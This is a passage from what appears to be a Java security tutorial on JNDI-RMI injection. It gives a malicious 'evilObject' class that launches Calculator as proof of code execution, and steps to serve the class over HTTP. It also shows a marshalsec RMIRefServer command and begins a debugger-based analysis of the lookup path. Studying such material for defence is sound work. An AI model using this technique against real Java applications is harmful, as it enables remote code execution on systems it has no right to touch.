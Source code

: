 ```java
        registry.bind("reference", referenceWrapper);
    }
}
```

 - evilObject.jav
a

```java
import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:17 am
 */
public class evilObject {

    public evilObject() {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

![JNDI-RMI](./images/8.png)

Running steps:
 - Compile malicious class files: `javac evilObject`
 - Start a service where the malicious class file is located: `python3 -m http.server 4444`
 - Run `JNDIServer`
 - Run `JNDIClient`

Notes:
 - `evilObject.java` and its compiled files are placed in other directories to avoid finding this class directly in the current directory to successfully implement command execution
 - The `evilObject.java` file cannot declare the package name. The `class` file function name compiled after declaration will be added with the package name, so it does not match.
 - Note that the `java` version is used, and the available `jdk` version must be met when reproducing

In addition to using code to build a `RMI` service, you can directly use the off-the-shelf tool `marshalsec` to start a `RMI` service:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

### Process Analysis
Set a breakpoint at the `GenericURLContext#lookup` method in the `JNDIClient.java` file.
